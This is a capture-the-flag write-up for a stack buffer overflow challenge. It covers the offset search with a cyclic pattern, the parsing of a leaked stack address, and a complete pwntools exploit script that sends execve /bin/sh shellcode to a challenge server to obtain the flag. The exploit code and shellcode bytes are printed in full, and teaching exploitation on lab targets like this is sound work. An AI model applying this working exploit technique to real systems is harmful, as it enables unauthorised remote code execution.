

New Recruit’s Overflow¶
Challenge Description¶
100 points
Listen up, recruits of the Time Travel Brigade! You want this badge of honor? Prove yourself by hacking through time!
nc jump.chrononaut.xyz 5001
Overview¶
The challenge provides a binary and connection info for a netcat server. Downloading and running the application presents an opportunity to “fill out a questionnaire”. The questionnaire includes a large buffer for us to write text into.
If a long input is provided, the program crashes with a segfault.
Triage¶
The goal of triaging the binary is to determine what kind of attacks might be successful, allowing us to quickly hone in on a solution.
Based on the challenge’s name and the application’s behavior, a buffer
overflow suspected. Additionally, the 0x7fff... number that appears in the
program’s output is suspected to be a stack address leak of some kind.
The next step is to determine if we have an executable stack. If the stack is executable then we can place shellcode into our payload and get direct code execution. If the stack is non-executable then we’ll need to use a technique such as ROP to exploit the overflow.
Pwntools indicates no common security measures were detected in the binary.
Specifically NX Disabled indicates that we have an executable stack.
To summarize what we found when triaging the binary:
Providing a large input to the program causes a crash due to segfault.
We have a memory address leaked to us by the application.
The stack is executable, so we may be able to jump to our own shellcode.
Exploitation¶
A buffer overflow exploit generally works by writting more data to a memory location than the data structure can hold, causing the remaining data to spill over and clobber other data in the stack. This could result in changes to local variables, return addresses, and any other information pushed to the stack. Since we have an executable stack we embed some shellcode into our payload and (attempt to) jump to our shellcode. In order to do that, we will need the following: - A method to overwrite our return address and provide shellcode (Specifically the amount of data until we start overwriting our return address). - An address leak that tells us where our shellcode is in memory. - A bit of shellcode to either read the flag directly or open an interactive shell.
Determining our offset¶
In this context the “offset” refers to “the number of bytes I need to write before I overwrite the return address”. One way we can determine this is to feed in a De Bruijn seqence as input and use a debugger to check what address the program attempts to return to.
We can generate a large De Bruijn (cyclic) pattern using the pwn cyclic
command. Since we know the program is a 64-bit executable (as noted in the
checksec output) I chose to use the -n 8 flag to generate 8 character (64
bit) unique sequences. The benefit of doing this can be seen in the next step.
The full command to generate the cyclic text sequence and save it to a text
file is: pwn cyclic -n 8 2000 > cyclic.txt
We can use a debugger such as GDB (or pwndbg in my case) to monitor how the program handles our input.
As seen in the above screenshot, we can launch the debugger with
gdb ./badge_questionnaire and use our cyclic pattern as our input by passing
the command r < cyclic.txt to our pwndbg console. This will run the program
and redirect the contents of “cyclic.txt” to standard input. Pwndbg will break
on segfaults, which makes it convient to identify when the overflow is
triggered.
In the disassembled view of the screenshot above, we can see the program is
attempting to return to the address 0x6161616161616170. The bytes of the
return address are reconizable as printable ascii characters. We can pass that
hex value back into the pwn cyclic to determine where that string occurs in the
cyclic pattern.
pwn cyclic -n 8 -l 0x6161616161616170
The utility outputs 120 indicating that we must write 120 bytes before we
reach the return address in the stack. With that info, we can start to build
our exploit script. I chose to write mine using the Python library pwntools.
#!/usr/bin/env python3
from pwn import *
p = process('./badge_questionnaire')
#p = remote('jump.chrononaut.xyz', 5001)
# How many bytes do we need to write before we start overwriting our return
# address.
# Find this value using a cyclic pattern and some GDB-fu
offset = 120
# TODO: complete the rest of the exploit script
Leaking our shellcode address¶
Now that we know how much padding we need, we can overwrite the function’s return address with anything we want. In our case, we want to create some shellcode and “return” to that shellcode. Since our shellcode is on the stack, we’ll need some kind of address leak to point us to the correct spot in memory. Luckily, the application appears to leak an address on the stack to us (notice the address highlighted in the screenshot below).
Let’s re-write our exploit script to attach a debugger to view how the leaked address relates to where our shellcode will be. I’ve also included a placeholder for the shellcode to make it easier to identify in the debugger.
1#!/usr/bin/env python3
2from pwn import *
3
4#p = process('./badge_questionnaire')
5#p = remote('jump.chrononaut.xyz', 5001)
6p = gdb.debug('./badge_questionnaire', gdbscript='''
7 break *question+138
8 ''')
9
10# How many bytes do we need to write before we start overwriting our return
11# address.
12# Find this value using a cyclic pattern and some GDB-fu
13offset = 120
14
15# Welcome Chrononaut Recruit[...]
16# Tell us abour yourself! (0x7ffe7616e6cc characters max.)
17
18target_addr = 0xdeadbeefcafebebe #placeholder for target address
19shellcode = b"B"*32 #placeholder for shellcode
20payload = b'A'*offset + p64(target_addr) + shellcode
21
22p.sendline(payload)
23p.interactive() # this prevents the script from exiting while we're debugging
The leaked address and the our “shellcode” address are highlighted in the above screenshot. The leaked address is highlighted at the top, while the shellcode is highlighted in the debugger near the bottom of the screenshot.
We can do some math and determine that the shellcode is 20 bytes (0x14) from the leaked memory address.
>>> 0x7ffcfdb92d20 - 0x7ffcfdb92d0c
20
>>> hex(_)
'0x14'
We can also use pwntools recvutil() functions to capture the leaked memory
address and store it in a variable.
Our updated exploit script looks like:
1#!/usr/bin/env python3
2from pwn import *
3
4#p = process('./badge_questionnaire')
5#p = remote('jump.chrononaut.xyz', 5001)
6p = gdb.debug('./badge_questionnaire', gdbscript='''
7 break *question+138
8 ''')
9
10# How many bytes do we need to write before we start overwriting our return
11# address.
12# Find this value using a cyclic pattern and some GDB-fu
13offset = 120
14
15# Welcome Chrononaut Recruit[...]
16# Tell us abour yourself! (0x7ffe7616e6cc characters max.)
17
18# Consume everything up to the '(' character.
19p.recvuntil(b'(')
20# Consume from 0x... until the ' ' character (drop=True; disgard the space character)
21# Interpret that value as an integer
22leak = int(p.recvuntil(b' ', drop=True), 16)
23log.info(f"Leaked address: {hex(leak)}")
24
25# Using GDB we find that the address leaked by the overflow challenge is 20
26# bytes from our shellcode payload.
27target_addr = leak+20
28log.info(f"Shellcode location: {hex(target_addr)}")
29
30shellcode = b"B"*32 #placeholder for shellcode
31payload = b'A'*offset + p64(target_addr) + shellcode
32
33p.sendline(payload)
34p.interactive()
Observing the application in the debugger, we can see from the highlighted addresses that the script returns to the memory location associated with our shellcode placeholder. Now we just need to build some actual shellcode and snag the flag.
Generating Shellcode¶
Now that we can jump to our shellcode placeholder, let’s swap out the placeholder for functional shellcode. For this part, I’ll use pwntool’s shellcraft library and assembler.
We can call shellcraft.amd64.linux.sh() to get some shellcode that spawns /bin/sh.
>>> from pwn import *
>>> print(shellcraft.amd64.linux.sh())
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
>>> asm(shellcraft.amd64.linux.sh(), arch='amd64', os='linux')
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
Let’s swap the placeholder for the shellcraft generated shellcode. Our exploit script now looks like this:
1#!/usr/bin/env python3
2from pwn import *
3
4p = process('./badge_questionnaire')
5#p = remote('jump.chrononaut.xyz', 5001)
6
7# How many bytes do we need to write before we start overwriting our return
8# address.
9# Find this value using a cyclic pattern and some GDB-fu
10offset = 120
11
12# Welcome Chrononaut Recruit[...]
13# Tell us abour yourself! (0x7ffe7616e6cc characters max.)
14
15# Consume everything up to the '(' character.
16p.recvuntil(b'(')
17# Consume from 0x... until the ' ' character (drop=True; disgard the space character)
18# Interpret that value as an integer
19leak = int(p.recvuntil(b' ', drop=True), 16)
20log.info(f"Leaked address: {hex(leak)}")
21
22# Using GDB we find that the address leaked by the overflow challenge is 20
23# bytes from our shellcode payload.
24target_addr = leak+20
25log.info(f"Shellcode location: {hex(target_addr)}")
26
27shellcode = asm(shellcraft.amd64.linux.sh(), arch='amd64', os='linux')
28payload = b'A'*offset + p64(target_addr) + shellcode
29
30#with open('payload', 'wb') as fout:
31# fout.write(payload)
32
33# Send our payload and switch to interactive mode in anticipation of an
34# interactive shell.
35p.sendline(payload)
36log.success('Switching to an interactive console...')
37p.interactive()
We’ve verified that the exploit works locally, now to try it on the remote server and get the (real) flag.
Running the exploit against the remote server¶
Like many pwn challenges, the flag is kept on a remote server, usually
interfaced with using netcat. Swapping the exploit from local to remote is as
simple as changing the p = process('./badge_questionnaire') line to
p = remote('jump.chrononaut.xyz', 5001).
Our final exploit script is shown below:
1#!/usr/bin/env python3
2from pwn import *
3
4#p = process('./badge_questionnaire')
5p = remote('jump.chrononaut.xyz', 5001)
6
7# How many bytes do we need to write before we start overwriting our return
8# address.
9# Find this value using a cyclic pattern and some GDB-fu
10offset = 120
11
12# Welcome Chrononaut Recruit[...]
13# Tell us abour yourself! (0x7ffe7616e6cc characters max.)
14
15# Consume everything up to the '(' character.
16p.recvuntil(b'(')
17# Consume from 0x... until the ' ' character (drop=True; disgard the space character)
18# Interpret that value as an integer
19leak = int(p.recvuntil(b' ', drop=True), 16)
20log.info(f"Leaked address: {hex(leak)}")
21
22# Using GDB we find that the address leaked by the overflow challenge is 20
23# bytes from our shellcode payload.
24target_addr = leak+20
25log.info(f"Shellcode location: {hex(target_addr)}")
26
27shellcode = asm(shellcraft.amd64.linux.sh(), arch='amd64', os='linux')
28payload = b'A'*offset + p64(target_addr) + shellcode
29
30#with open('payload', 'wb') as fout:
31# fout.write(payload)
32
33# Send our payload and switch to interactive mode in anticipation of an
34# interactive shell.
35p.sendline(payload)
36p.interactive()
Running the exploit script on the remote server grants us the flag battelle{w3lc0me_2_the_TVA}.